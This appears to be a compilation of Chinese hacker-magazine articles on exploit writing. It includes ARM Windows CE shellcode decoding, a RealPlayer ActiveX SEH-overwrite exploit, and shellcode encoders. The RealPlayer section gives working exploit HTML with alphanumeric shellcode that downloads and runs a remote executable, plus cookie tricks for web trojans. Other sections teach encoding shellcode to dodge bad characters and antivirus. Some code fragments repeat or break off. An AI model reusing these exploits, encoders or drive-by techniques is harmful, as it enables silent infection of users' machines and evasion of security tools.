使用这种方法溢出 hello 程序，程序执行后，PDA 会被冻结。我想，这可能是栈顶 2KB 保护空间被破坏了。我们在写溢出程序的时候必须注意这个特性。

EVC 在调试程序的时候有一些 Bug：

- 一是在函数返回释放栈的时候，EVC 会写一些数据到栈空间，ShellCode 可能会被修改；
- 二是断点处的指令修改为 `0xE6000010`。

另一个 Bug 更有意思，调试的时候向 `.text` 段写数据不会发生错误，但是执行的时候会产生访问违规异常。

#### 关于解码 ShellCode

我们上述所讨论的 ShellCode 是概念上的，它包含许多零。它在这个示例程序中可以正确运行，但在某些情形下，一些脆弱的程序可能在缓冲区溢出之前就将特殊字符过滤掉了。例如当使用 `strcpy` 造成缓冲区溢出时，ShellCode 将被零截断。

用 API 搜索方法来编写 ShellCode，如果不用特殊字符是十分困难的，所以我们考虑解码 ShellCode。解码 ShellCode 将转变特殊字符使其为适合的字符，从而使得 ShellCode 更加通用。新的 ARM 处理机（比如 ARM9 和 ARM10）采用了指令缓冲器与数据缓冲器分离的哈佛体系，这一特点将提高处理机的性能，大多数精简指令集处理机都有这一特性。但是自修改代码不容易执行，因为一旦修改之后，缓冲器和处理器会很混乱。我们先来看看下面这段代码：

```c
#include "stdafx.h"
int weird[] =
{
    0xE3A01099, // mov r1, #0x99

    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]

    0xE1A01001, // mov r1, r1 ; pad
    0xE1A01001,
    0xE1A01001,
    0xE1A01001,
    0xE1A01001,
    0xE1A01001,

    0xE3A04001, // mov r4, #0x1
    0xE3A03001, // mov r3, #0x1
    0xE3A02001, // mov r2, #0x1
    0xE3A01001, // mov r1, #0x1
    0xE6000010, // breakpoint
};
```

```c
int WINAPI WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPTSTR lpCmdLine,
    int nCmdShow)
{
    ((void (*)(void)) &weird)();
    return 0;
}
```

```asm
0x6B28B889, // mov r3, #0x1
0x6B28A889, // mov r2, #0x1
0x6B289889, // mov r1, #0x1
0xE6000010, // breakpoint
```

这里的 4 条 `strb` 指令将把下面的 4 条 `mov` 指令的立即数修改为 `0x99`。当直接在 EVC 调试器里运行这段代码时，它将会在插入断点处中断，`r1～r4` 寄存器在 ARM9 核心处理器中得到值 `0x99`。当我在朋友的内置 Intel XScale 处理器的 PDA 上测试这段代码时，当修改 `r1～r4` 值为 `0x99` 后发生了异常。我想原因可能是 ARM9 有 5 条流水线，而 ARM10 有 6 条流水线。接下来，我将改用另一种方法：

4 条 `mov` 指令通过与 `0x88` 异或来编码，解码器通过一个循环来装载一个编码字节，通过与 `0x88` 进行异或操作，然后将它恢复为原来的值。在 ARM9 和 ARM10 处理器中，就算你在解码之后插入很多 pad，`r1～r4` 寄存器也不会得到 `0x1`。我想这可能是装载指令引起缓冲器的一些问题。

ARM 体系参考手册专门有一个章节介绍怎样处理自修改码。上面说过，当操作系统调用时，缓冲存储器会被更新。来自 Odd 的朋友 Phil 和我分享了他的经验，他说他用这个方法成功地在 ARM 系统上实现（我想也是在 Linux 环境下），这个方法在 AIX、PowerPC 和 Solaris SPARC 上同样成功实现（我已经测试过）。但是在 Windows CE 环境下，软中断使用一种不同的方法实施。`armtrap.s` 包括 `SWIHandler` 的执行，这个执行除了 `movs pc, lr` 之外什么都没有，所以它对解码完成后没有任何影响。

```asm
0xE28F3053, // add r3, pc, #0x53
0xE3A00100, // mov r1, #0x10
0xE7D32001, // ldrb r2, [r3, +r1]
0xE2222088, // eor r2, r2, #0x88
0xE7C32001, // strb r2, [r3, +r1]
0xE2511001, // subs r1, r1, #1
0x1AFFFFFA, // bne ...
// ...
0xE1A01001, // mov r1, r1 ; pad
0xE1A01001,
0xE1A01001,
...
0x6B28C889, // mov r4, #0x1 ; encoded
```

由于 PDA 主要工作在内核模式，所以我们有访问系统控制协处理器的特权。ARM 体系参考手册上介绍了存储系统以及如何通过系统控制协处理器来操作缓冲存储器。在浏览手册之后，我尝试在解码之前使指令缓冲不工作：

```asm
mrc p15, 0, r1, c1, c0, 0
bic r1, r1, #0x1000
mcr p15, 0, r1, c1, c0, 0
```

但是当 `mcr` 执行的时候系统冻结了，然后我尝试解码后使指令缓冲器有效：

```asm
eor r1, r1, r1
mcr p15, 0, r1, c7, c5, 0


```

但是同样没有效果。

#### 结论

以上为真实 Windows CE 环境下的缓冲区溢出例子，尽管它不完美，但是将来会得到进一步的发展。随着嵌入式设备和网络的迅猛发展，PDA 和智能手机受到的威胁越来越大。与其他 Windows 系统相比，给 Windows CE 打补丁要困难和危险得多，因为整个 Windows CE 系统是存储在 ROM 中的，ROM 中数据的擦写、ROM 系统镜像文件、PDA 工作模式、手机类型等都是不兼容的。

> 【本文涉及的代码（程序），请见随书光盘】

### 隔山打牛之 RealPlayer 栈溢出

文／图 gyvV［江苏大学信息安全系&EST］

不知从什么时候起，ActiveX 控件的安全问题变得如此严峻，从杀毒软件到迅雷，再到暴风影音等播放器，真是一波未平一波又起。最近又出了 RealPlayer ActiveX 方面的一个问题，网上已经有截获的网马，里面还有“YuanGe”的字样。这个漏洞有一定的特殊之处，IE 中的数据被传递给 RealPlayer 的时候产生了栈溢出，所以才称之为“隔山打牛”。不过 RealPlayer 在 24 小时之内就发布了补丁，动作真是相当迅速，但是 RealPlayer 不能自动升级，还是有大批的用户暴露在了枪口前。经常打补丁是很重要的，现在 Windows 平台这个大木桶已经到处都是短板，安全形势不容乐观啊。
图1

#### 调试

要想写 Exploit，调试技能是必备的。POC 代码非常简单，只有 10 行不到的代码。刚开始的时候我用 OD 附加到 IE 上，怎么也截获不了异常，郁闷了半天。原来溢出发生在 RealPlayer 中……当 ActiveX 控件运行以后，它会启动一个隐藏窗口的 RealPlayer 进程，随后它会将播放列表通过一个 WM_COPYDATA 消息发送给隐藏窗口，但是 RealPlayer 没有对 ActiveX 控件传进来的数据进行验证，导致了栈溢出。POC 中的代码如下。
图2

从 ASCII->Unicode->ASCII 的过程。

```html
<html>
<script>
var payload = "";
real = new ActiveXObject('IERPCtl.IERPCtl.1');
while (payload.length != 0x8000)
  payload = payload + unescape("%90");
real.Import("test.avi", payload, "", false, false);
</script>
</html>
```

用 OD 启动 RealPlayer，然后运行 POC，如图1所示。看左下角的“正在写入到 [0013000000]”，这是典型的栈溢出，写到相邻的不可写段了。漏洞的利用思路也很简单，就是覆盖 SEH。

我们看看当前的 SEH 链，如图2所示。SEH 链被 0x3F3F3F3F 覆盖了，但是我们明明提交的是 0x90909090 啊，显然应该是经过了 Unicode 的转换，也就是从 ASCII->Unicode->ASCII 的过程。

```asm
62E71901  8B55 FC       MOV EDX,DWORD PTR SS:[EBP-4]
62E71904  6A 00         PUSH 0
62E71906  6A 00         PUSH 0
62E71908  56            PUSH ESI
62E71909  57            PUSH EDI
62E7190A  6A FF         PUSH -1
62E7190C  51            PUSH ECX
62E7190D  6A 00         PUSH 0
62E7190F  52            PUSH EDX
62E71910  C607 00       MOV BYTE PTR DS:[EDI],0
62E71913  FF15 3C30EA62 CALL DWORD PTR DS:[<&KERNEL32.WideCharToMultiByte>]
```

这是 ierpplug 中处理播放列表的一段代码，WideCharToMultiByte 使我们的 Exploit 编写难度加大了，因为我们不得不使用纯字符的 Shellcode；这样经过 ASCII->Unicode->ASCII 转换后，我们的 Shellcode 才能够正确运行。

覆盖 SEH 链的地址也必须符合 Unicode 的编码规则。很幸运，0x60093179 处的“pop pop ret”正好符合我们的要求。我们可以将堆栈覆盖成“NNNNNN[jmp06 jmp04][0x60093179][Shellcode]”这样的形式，执行“pop pop ret”指令后，EIP 就会顺利跳入 ShellCode。0x60093179 这个地址可能随版本不同地址也有所变化吧，我调试的是 8.0.14.544 的英文版 RealPlayer。之后剩下就是纯字母数字 ShellCode 的问题了。

```c
{ "[esp+14]", "..." mixedcase_ascii_decoder_body },
{ "[esp+18]", "..." mixedcase_ascii_decoder_body },
{ "[esp+1C]", "..." mixedcase_ascii_decoder_body },
{ "seh", "mixedcase_w32sehgetpc ..." }
// ecx code
```

哪个寄存器指向了 ShellCode，我们就选用哪个相应的解码头即可。至于编码函数，可以用如下函数来实现。

#### 纯字母数字的 ShellCode

关于纯字母数字的 ShellCode，《黑客防线》杂志以前也有文章提到过。大致的思想就是将 ShellCode 分成解码头+主体两部分，解码头是以纯字符的指令组成，主体以某种算法拆分成两个字节。解码头取得控制权以后，还原 ShellCode 并执行。国外有牛人已经写出了现成的解码头和编码函数，我们可以直接使用，下面的是解码头表。

| 寄存器/位置 | 解码头串 |
|---|---|
| nops | ... |
| eax | ... |
| ecx | ... |
| edx | ... |
| ebx | ... |
| esp | ... |
| ebp | ... |
| esi | ... |
| edi | ... |
| [esp-10] | ... |
| [esp-C] | ... |
| [esp-8] | ... |
| [esp-4] | ... |
| [esp] | ... |
| [esp+4] | ... |
| [esp+8] | ... |
| [esp+C] | ... |
| [esp+10] | ... |

```c
#define ascii_decoder "..."
char* alphaEncodeShellCode(char *shellcode, int size)
{
    int i, A, B, C, D, E, F;
    char *valid_chars = "0123456789BCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    char *encShellCode = (char*)malloc(sizeof(ascii_decoder) + (size * 2));
    char buff[4];
    int z = 0;
    strcpy(encShellCode, ascii_decoder);
    for (; z < size; z++) {
        A = (shellcode[z] & 0xf0) >> 4;
        B = (shellcode[z] & 0x0f);
        F = B;
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != F) { i = ++i % strlen(valid_chars); }
        E = valid_chars[i] >> 4;
        D = (A - E) & 0x0f; /* 或 (A ^ E) */
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != D) { i = ++i % strlen(valid_chars); }
        C = valid_chars[i] >> 4;
        sprintf(buff, "%c%c", (C<<4)+D, (E<<4)+F);
        strcat(encShellCode, buff);
    }
    return encShellCode;
}

int main()
{
    char* alpha = alphaEncodeShellCode((char*)sc, sizeof(sc)-1);
    printf("%s", alpha);
    __asm {
        xor ecx, ecx
        mov ebx, alpha
        jmp ebx
    }
    return 1;
}
```

在这个例子中，我们在 0x60093179 处下硬断点，然后 Shift+F9 跑起来，断在 0x60093179 处，单步跟踪几步就跳入到了 ShellCode，ESP 指向 0012D81C，EIP 指向 0012EEDC，也就是 ShellCode 所在的位置。我们可以选择 TY...7QZ 作为我们的解码头，但是……

ESP 当前并不指向 0012EEDC，怎么办呢？此时的堆栈情况如下。

```text
0012D818  0012EED4
0012D81C  0012D914
0012D820  0012D8CC
0012D824  0012EED4 ；指向下一个 SEH 记录的指针
0012D828  7C9237D8 ；SEH 处理程序
0012D82C  0012EED4
```

我们发现堆栈中有一个 0012EED4，离我们的 0012EEDC 很接近，只有 4 个字节，因此，可以调整 ESP 值以满足我们的要求。调整 ESP 的指令也必须是字符，很幸运，有很多这样的指令可以用。

```text
0012EEDC  4C        DEC ESP
0012EEDD  4C        DEC ESP
0012EEDE  4C        DEC ESP
0012EEDF  4C        DEC ESP
0012EEE0  5C        POP ESP    ；执行到这的时候 ESP 为 0012EED4
0012EEE1  58        POP EAX    ；ESP 为 0012EED8
0012EEE2  58        POP EAX    ；ESP 为 0012EEDC
0012EEE3  58        POP EAX    ；ESP 为 0012EEE0
0012EEE4  58        POP EAX    ；ESP 为 0012EEE4
0012EEE5  58        POP EAX    ；ESP 为 0012EEE8
0012EEE6  44        INC ESP    ；ESP 为 0012EEE9
0012EEE7  4C        DEC ESP    ；ESP 为 0012EEE8
```

这样，我们的 ESP 就顺利指向了 ShellCode。到此，写 Exploit 的障碍就全部解决了，组装完成后的 Exploit 如下。

```html
<html>
<script>
var payload="";
real=new ActiveXObject('IERPCtl.IERPCtl.1');
for(i=0;i<32*148;i++)
  payload += "S";
for(i=0;i<36;i++)
  payload += "A";
payload=payload+unescape("%75%06%74%04")+unescape("%79%31%09%60");
AdjESP = "LLLL\\XXXXXXD";
Shell = "TYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB...";
payload = payload + AdjESP + Shell;
real.Import("waiting.avi",payload,"",false,false);
</script>
</html>
```

```text
Uz4IVgTBfRWygPfouZtCwWqvRHp td4RPFZVOdoRWQgr
WTnQw2Y3JT96NPod2pgToPgrY0zYTnSUQhU5k0wp";
payload = payload + AdjESP + Shell;
while (payload.length != 0x8000)
  payload=payload + "B";
real.Import("waiting.avi",payload,"",false,false);
</script>
</html>


```

我们访问这个 Html 文件，即可顺利下载并执行 `http://www.gyzy.org/gyzy.exe` 文件，如图3所示。
由于溢出并不是发生在 IE 中，所以并不会导致 IE 的崩溃。就算崩溃，也是没有任何征兆的，因为默认 RealPlayer 在后台是隐藏打开的，发生异常后就直接退出了，不会有提示。所以相对来说，这个漏洞的危害还是比较大的，中了几乎就是神不知鬼不觉的。

在测试的时候，大家可能会发生测试成功一次以后，就不能再溢出的情况。我发现只要卸载 RealPlayer 中的媒体库一项即可。被截获的网马对 RealPlayer 的版本进行了细致的判断，在覆盖 SEH 的时候分别使用了不同的地址，考虑得相当完善。另外，它还通过 Cookie 使网马只执行一次。这个技巧现在也用得比较多了，实现起来也非常容易，比如添加如下的 JavaScript 代码就可以达到目的。

```javascript
var cookieString = document.cookie;
var start = cookieString.indexOf("realexp=");
if (start != -1) {}
else {
  var expires = new Date();
  expires.setTime(expires.getTime() + 1 * 24 * 60 * 60 * 1000);
  document.cookie = "realexp=real;expires=" + expires.toGMTString();
  Exploit();
}


```

#### 小结

通过这个 RealPlayer 溢出漏洞，我们学习到了网马中常用到的一些技巧，以及如何去调试，并给了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。毕竟“授人以鱼”不如“授人以渔”。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正，有任何问题欢迎到黑防论坛，我们共同讨论。

【本文涉及的代码（程序），请见随书光盘】

## ShellCode 篇

### 定制特殊的 ShellCode

文 / F.Zh
现在很多溢出都对 ShellCode 有特殊的要求，比如不能出现某些特殊字符，或者要求长度小于多少等。刚学会写溢出程序的朋友，遇到这些问题还是很头痛的，想在外面去找现成的，好像一时半会儿不容易找到，只好自己写或者把外面公布的拿来修改了。

关于有长度限制的 ShellCode，解决起来相对来说容易一些。一个方法是针对具体的漏洞来写比较小的 ShellCode，外面有很多的模板，看懂了可以根据自己的需要来定制。还有一个方法是绕开长度的限制，例如只做一个简单的搜索 ShellCode 的代码，真正的 ShellCode 放到其他地方等。作为例子，很容易想到的是 Serv-U 中 Mdtm 时区溢出问题，时区限定了长度，但其实几乎所有的 Exploit 都选择把 ShellCode 放到同一个请求的文件名中去。

如果有字符上的限制就比较麻烦，前面几篇《菜鸟版 Exploit 编写指南》讲到 CMail 的一个漏洞，要求 ShellCode 中不能含有大写字母，这时候 ShellCode 如何去选取就成了一个难题。遇到不能有特殊字符的，有个解决方法是写一个不包含有这些特殊字符的搜索代码，把真正的 ShellCode 放到其他地方，或者就放在后面，用搜索代码去寻找内存中原始的串。针对具体的某一个漏洞来说，不包含某些字符的 ShellCode 可以很容易地写出来，但是通用性不见得很好。于是我们很自然地就想到可不可以写出一个修改 ShellCode 的模板，可以在比较方便的情况下快速获得或者自动生成满足要求的 ShellCode。本篇文章就试图定义一个方法，希望在比较小的改动下就能够做出比较通用的 ShellCode 来。

在切入正题之前，有一些假设需要说明，首先是 ShellCode 对字符串的长度没有限制。倘若是对长度和字符都有严格的限制，我想讨论范围已经远远超过了我的能力，满足要求的代码能不能写出来已经成为问题，更不用说做到通用了。另外一点假设是这个 ShellCode 不针对覆盖 SEH 或者栈上 RET 地址，因为根据具体情况，也许还有更好的方法。为了方便起见，下面提到的 ShellCode，都指原始的只经过 XOR 处理的 ShellCode，Encoded Code 指的是按照我们的方法编码后的 ShellCode，而 Decode Code 指的是运行时解码并生成可执行的 ShellCode 的代码。

我们知道，发布的 ShellCode 都是由两部分组成的，前面一段是 Decode Code，后面一段是编码后的 ShellCode。第一段的存在是因为第二段（也就是具有真正意义上绑定、反弹或者其他功能的 ShellCode）如果不经过编码，通常会含有很多 ASCII 码为 0 的字符，而溢出的时候 ShellCode 通常会通过一个字符串的形式传送过去，为 0 的字符会被认为是字符串的结束标记而导致后面字符全部被截断。所以，出现第一段也是一个原始的防止特殊字符出现的方法。流行的情况是第二段也就是可以运行的 ShellCode 与 0x99 异或一下，第一段作为一个解码器，在执行时动态定位第二段，然后将第二段编码与 0x99 异或解码后跳转运行真正的 ShellCode。

我们还是按照 Encoded Code 和 Decode Code 分开的思路想下去，单独用异或的话，只能保证仅有的几个字符能够避免。如果换一个方法，比如把 Encoded Code 看成一个很长的数字，并按照减法拆开，由于组合的存在，也许可以避免更多的字符出现。

现。下面是这种方法的描述。

假设原始的 ShellCode 中任意一个字符是 O，我们把它拆成（固定的）几个数字的和，比如 x，y，z，也就是要求满足 O = x + y + z。理论上说，满足条件的 x，y，z 的组合有很多种，假如我们用 xyz 的方法来存储原始的 ShellCode，就可以避免几乎 2/3 的 ASCII 字符，而且这样存储 ShellCode，除 Decode Code 部分，可以有多种变形，可能对防止一些杀毒软件和防火墙也有着一定的效果。

进一步说，如果对 ShellCode 的长度没有要求，我们甚至可以几乎无限地扩展拆分原始 ShellCode，但是具体操作中为了 Decode Code 的可行性，还是采取一些比较简单的拆分方法为好。因为完整的 ShellCode 实际上应该包括 Decode Code，而一旦在字符上有所规定，首先 Decode Code 必须满足这个要求。而一个方法再好，如果某一部分不能实现，那也是没有用的。我们先在这里完成一个实现，后面再说说其他的方法。

还是按照上面的假定，我们先写一个简单的 C++ 代码，把 ShellCode 按照这种方式拆分开来。具体地说，就是将 ShellCode 取出来后，穷举一下所有的可能情况，如果一个拆分可以满足不包含任何指定的特殊字符，就认为这种拆分是可能的。看如下代码，很短：

```cpp
unsigned char p, q;
unsigned int a;
for(i=0; i<sizeof(sc)-1; i++)
{
    for(int j=1; j<127; j++)
    {
        p = (char)j;
        a = sc[i];
        if(a<j)
            printf("\na=%d  j=%d  i=%d\n", a, j, i);
        q = (char)(a-j);
        for(int k=0; k<sizeof(badchar)/3; k++)
            if(q==badchar[k] || p==badchar[k])
                goto l;
        printf("\\x%0.2x\\x%0.2x", p, q);
        break;
        l:;
    }
    if(j==128)
        printf("failed!");
}
```

依次来解释一下。首先 P 和 Q 是两个拆分，A 作为一个临时变量来临时获取 ShellCode 中的每一个字符。外面一重循环是对原始的 ShellCode 进行循环，每一次取一个字节到内循环去。

里面一个循环稍微麻烦一点。首先解释一下为什么要从 1 循环到 127，因为每一个单一的字节 ASCII 码是从 0 到 255 的，拆分字符的话，没有必要从 1 循环到 255，只需到一半的时候即 127 的时候，所有可能的组合就都已经出来了。接下来先确定 P 的值，然后确定 Q 的值。考虑 P 和 Q 的值的时候，判定 a<j 是出于暂时不考虑进位情况（如果考虑进位的情况，相邻的字符必须要同时处理，这样程序将会异常复杂，对解码部分也有很大的影响）。这个内部的循环基本上是对每一个原始 ShellCode 的字符，穷举所有可能的组合情况，然后在最里面的循环中，依次比较拆分后的情况是否会有特殊字符（这个比较使用 sizeof(badchar) 作为循环的结束，隐含地包括了对结束字符 '\x00' 的比较），成功了，就进行下一个字符的拆分。

最后一个 if(j==128) 的判定，是基于对失败情况的考虑。可以看到，如果内层循环是正常退出的话，说明所有的可能性都穷举完了，但是依然不能满足要求，这种时候我们视为失败，也许要重新选择另外的编码方式。

再做一点点改进。这个改进完全是为了后面书写 Decode Code 这个头部的需要。因为现在的存储方式是 xyxyxyxyxyxy……每相邻的两个字节组成原始的 ShellCode，但是在 32 位环境下，似乎每 4 个字节来处理比较方便，我们可以将存储的方式改为每 4 个字节来存储，即 xxxxyyyyxxxxyyyy……的方式，这样将原来的输出方式改一下，每得到 4 个字符再输出，改进如下：

```cpp
re[i%4]=p, re[i%4+4]=q; //can be exchanged
if(i%4==3)
    printf("\\x%0.2x\\x%0.2x\\x%0.2x\\x%0.2x\\x%0.2x\\x%0.2x\\x%0.2x\\x%0.2x",
           re[0], re[1], re[2], re[3], re[4], re[5], re[6], re[7]);
```

用上面的来替代原来代码中的输出那一行。到这一步，基本上可以有效地解决编码后 ShellCode 中包含特殊字符的问题。如果还想进一步地改进也可以。比如内层 j 的循环，我们是从 1 开始，如果这里同样是 1~127 的情况，但切换的是乱序形式，就是一个对 ShellCode 的很好的变形方式。在算法中，这是很简单的一个模拟洗牌算法，这里只是提一下，不加赘述，为了 ShellCode 的完美，你也可以加上这一段功能。

下面来说说 Decode Code 这个头该如何表示。Decode Code 没有办法通过自动化的手段来生成，一般都是手工来写，不过还好工作量不是很大。下面的实现实例是比较好的一个，几乎可以避开常见的特殊字符。如果仍然不满足要求，可以按照后面写的一些提示来进行简单修改；如果还是不行，就要从头开始重新构造另外的算法了。

Decode Code 满足的功能很简单：得到 Encoded ShellCode 的头，依次取 4 个字节相加。“放入内存”的工作用代码来描述如下（在 VC 中嵌入汇编很简单方便，也很短小）：

```asm
__asm
{
    jmp short getaddr
dstart:
    pop ebx
    xor ecx, ecx
    mov cx, 0x112        ; ShellCodeLength / 2
    xor esi, esi
    xor edi, edi

decode:
    mov eax, [ebx+esi]   ; 取4个字节
    add esi, 4
    add eax, [ebx+esi]   ; 取下面4个字节相加
    mov [ebx + edi], eax ; 放入内存
    add esi, 4
    add edi, 4
    loop decode
    jmp short scstart
getaddr:
    call dstart
scstart:
    nop
    ; 并不真正需要这个 nop，跟上面说的 encode ShellCode 就可以了
}


```

有 ShellCode 编写经验的朋友应该一下就能看出来，这是一个很简单的 Decode。`jmp short getaddr` 一直到 `pop ebx` 这一段，就是为了动态获得执行时当前的内存地址；这里没有 `dec ebx`，是因为后面并没有用 `ecx` 同时作为循环次数控制和地址偏移。对 `cx` 的赋值，因为每 4 个字节来取，而且对原始 ShellCode 编码后变长了两倍，所以只是原始 ShellCode 的一半长度即可。Decode 部分采用的是上面所说的算法，最后当循环结束，也就是解码结束以后，跳转到真正的 ShellCode 上面去。

这个短小的解码部分，很多地方是可以微调的。也就是说，为了避免特殊字符的出现，可以有很多简单的修改方法。比如第一句的 `short jmp`，机器码中的 `EB` 是没有办法的，但是可以增加 `getaddr` 前面的指令，加上一些 `NOP` 或者类似的指令（附带说一句，这个类似指令在 CnHonker 上面有一个非常详细的表）来改变跳转的长度。这个调整同时会影响到 `call dstart` 和 `jmp short scstart` 的指令码，有可能要选择合适的来同时满足 3 个地方的需求。

再比如，所有的寄存器是可以替换的，像所有的 `ebx` 都换成 `edx` 的话，不改变本身的含义，但是改变了一些字符。还有 `add esi, 4` 之类，可以有很多等价的实现方法，比如连续或者交错的 4 个 `inc esi`，或者 `add esi, 1`，或者 `dec esi, -1` 等。

好像在实际情况中，我都是简单地调整一下代码就可以满足要求（做好后看是否满足要求的方法，简单的可以在 VC 的调试模式下看反汇编，就是 F10 然后 Ctrl+F11）。如果上面的微调都没有办法满足要求的话，那就比较麻烦了，可能需要选择另外的算法。

这里再说说另外一种可行的算法。如果对字符的要求相对来说不是非常严格，可以在最原始的 ShellCode 上做很有限的修改，就是修改异或的值。

最古老的方式是按照每一字节都与同一个字符（最常见的 `0x98` 和 `0x99`）异或，但是如果按照一定的顺序循环地与多个字符（例如 4 个，`0x12345678`）异或，出现特殊字符的可能性就会大大减小。和前面一个算法一样，这是可以动态生成不同的 ShellCode 的。比如我们设定异或的字符为 4 个字节，那么我们选择原始 ShellCode 中序列数模 4 为零的所有字符，与 ASCII 码从 1 到 255 的字符 X 异或；如果出现了所有的字符与 X 异或以后都没有出现特殊字符，那么我们就确定这个 X 为可行字符。同样地，我们按照模 4 的标准等价划分原始的 ShellCode，依次找出所有的可行字符，倘若都能找到，那么这个方法就是可行的，剩下的就是按照对字符的限制写出相关的 Decode Code。

和前一个算法一样，考虑到解码的难度，并不是异或字符数越多越好，一般倾向于 4 个或者 8 个，再多的话，编写的难度就几乎同编写一个新的 ShellCode 难度相当。限于篇幅，这里只是说明一下 ShellCode 的编码方法，没有给出具体的代码。相信看了前面的讲解，你是能够很容易编写出来的。

作为《菜鸟版 Exploit 编写指南》的姊妹篇，这篇文章想独立地讲一下针对需求的 ShellCode 编写，希望对读者有所帮助。前面一种实现方法的代码可以在光盘中找到，如果你有更好的方法，希望不吝赐教。

WTF：上篇文章讲了如何获取 Linux 和 Windows 下 ShellCode 的详细方法，但由于文章本身的重点不在 ShellCode 的构造和功能实现上，所以讲得比较粗略。其实在溢出这块天空下，ShellCode 是最耀眼的明星……没有 ShellCode 的构造，一切溢出都只是空谈……

#### 定制自己的 ShellCode
定制自己的 ShellCode 无非有两个原因：Exploit 的特殊要求，或者是逃脱各种杀毒软件或 IDS 的追杀。前面的文章说了一个把 ShellCode 先拆分然后再组合的方法，其结果会加长 ShellCode 的字节……这次再来说说其他方法。

```text
SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS...

abcdabcdabcdabcdabcdabcdabcdabcdabcdabcdabcd...
```

如果是一个模式的等份划分，即把原字符串按位置重排成若干子串（如所有标识为 a 的字符、标识为 b 的字符……），这样划分出来的字符串相对独立，可以单独运算而互不影响。一般编码方法只考虑避免结束符 `\x00`，但若要显著减少禁用字符出现，还需要更合理的划分与异或策略。

在这里依然作一些约定：ShellCode 是在原来的基础上修改，也就是只考虑编码方式；ShellCode 一般分为前面的 Decode 部分和后面真正起作用的部分。假设长度不能超过 500 字符，并且只能作为非大写字母的文件名，需要尽量避免特殊字符出现。为此可将待编码串看作无规律字符串，采用可逆且分布较均匀的运算（如异或）进行处理。

关于这个结论，还可以做更直观的理解：若假设字符分布均匀，较长字符串经过异或后仍较均匀；而只有很少字符的字符串异或后更容易集中在少数字符上。理论分析里常说“概率大/小”，但实际设计只有成功或失败，必须通过实践验证结果。

划分等价类的时候，要决定划分的依据是模为几。这个数字虽然说是越小越好，但还是要实际地去选择。先写个程序来选择一下，当然，选择的标准是：划分后每一个子串都可以与某个字符异或而不产生禁用的字符。

在多次修改 Para 的值以后，你会发现最好的数字是 13。很多情况下我们只要知道这个数字就可以了。这个数字如果很小，便于解码部分的书写；如果太大，ShellCode 编码后的数据产生禁用字符的可能性减小，但解码部分又太难书写。折中下来，7 或者 13 比较好。

```c
for(int wokao=0; wokao<para; wokao++)
{
    printf("%d:",wokao);
    int ko=(sizeof(sc)-1)/para;
    for(int i=0; i<ko; i++)
        p[i] = sc[i*para+wokao];
    for(i=1; i<255; i++)
    {
        for(int j=0; j<ko; j++)
            if(inbadchar(p[j]^i))
                goto l;
        playboy = i;
        if(!inbadchar(playboy))
        {
            printf("0x%0.2x,", playboy);
            temps[wokao] = playboy;
        }
        exit(0);
l:;
    }
    printf("\n");
}
```

这个微小的片段可以描述我们选择的依据。参数 Para 作为我们划分等价子串的标准，在写出具体的判定程序时候最好是一个动态确定的数。KO 是每一个子串的长度，在内层循环中依次把原来 ShellCode 的数据取到临时串 `P[]` 里面。

从第 7 行开始，是一个划分是否成功的判断。成功的必要条件是这个子串能够与某一个字符异或而不出现特殊字符。9 行～11 行就是做这个工作的。12 行记录下这个字符即 Playboy，如果整个子串与 Playboy 异或而不产生特殊字符，那么这个子串就是完美的；如果所有子串都完美，那么这个划分就是完美的。

细心的你也许发现了一个问题，为什么还要判断 Playboy 是否是禁用字符呢？这是为了以后的考虑，因为编码后的 ShellCode 满足要求只是必要条件，另一个必要条件是解码部分也不能出现禁用字符。

我们以 13 作为等价划分的标准做一个例子。以 13 为划分标准时，ShellCode 被分成 13 个子串。相同字母标识的在同一个子串中，相应地与不同的字符异或。

```text
ssssssssssssssssssssssssssssssss...
----------------------------------
      abcdefghijklmabcdefghijklmabcdefg
hijklmabcdefghijklmab...
```

可以看到，动态地把原始 ShellCode 编码以后，进行解码的时候是一个长度为 13 的循环解码过程。上面那段小程序把 Para 改为 13 就是完整的动态编码，最后在 Temps 这个字符串中记录的是这 13 个满足条件的异或字符。

```text
ssssssssssssssssssssssssssssssss...
XOR) abcdefghijklmabcdefghijklmabcdefg
hijklmabcdefghijklmab...
----------------------------------
tttttttttttttttttttttttttttttttt...
```

异或的可逆性决定了其逆向解码的过程。

```text
tttttttttttttttttttttttttttttttt...
XOR) abcdefghijklmabcdefghijklmabcdefg
hijklmabcdefghijklmab...
----------------------------------
ssssssssssssssssssssssssssssssss...
```

由于固定了等价划分的标准是 13，上面的程序可以帮助我们生成满足条件的异或字符（表示为 a-m），剩下的工作是来看解码的部分如何手工编写。我们的个人计算机通常字长是 32 位，也就是 4 个字节长，分成 3 个 4 字节长的整数和一个单字节的字符，每循环一次就用这些东西和编码后的 ShellCode 异或运算一次。

根据《定制自己的 ShellCode》中所给的解码部分的模板，很容易写出解码部分如下：

```asm
{
    jmp short getaddr
 dstart:
    pop ebx
    xor ecx, ecx
    mov cx, 0x112
    xor esi, esi
 decode:
    xor DWORD ptr [ebx+esi], 0xD4FDFBE7
    add esi, 4
    xor DWORD ptr [ebx+esi], 0xFBE7FCF4
    add esi, 4
    xor DWORD ptr [ebx+esi], 0x61FA72F9
    add esi, 4
    xor [ebx+esi], 0xF4
    add esi, 1
    nop
    loop decode
    jmp short scstart
 getaddr:
    call dstart
 scstart:
    nop
}
```

和以往一样，用一个 `jmp` 和一个 `call` 来获得编码后的 ShellCode 开始位置。CX 是控制循环次数的，按道理最少应该是 ShellCode 的长度除以 13。这里为了方便，就固定下来一个数字；ESI 用来控制偏移量，也就是控制解码到了 ShellCode 的第多少个字符。后面从 Decode 开始的段就是上面说的那种方法，依次与 3 个 4 字节长的整数和一个单字节的字符运算解码。值得注意的是：这里的操作数不是固定的，按照我们前面所述，这一串的操作数都是动态生成的，在编写程序的时候要动态地填入，所以这里先是随便写了一些数字，只要确定一下位置就可以。编译后可以收集一下，这一段代码的机器码就是：

```text
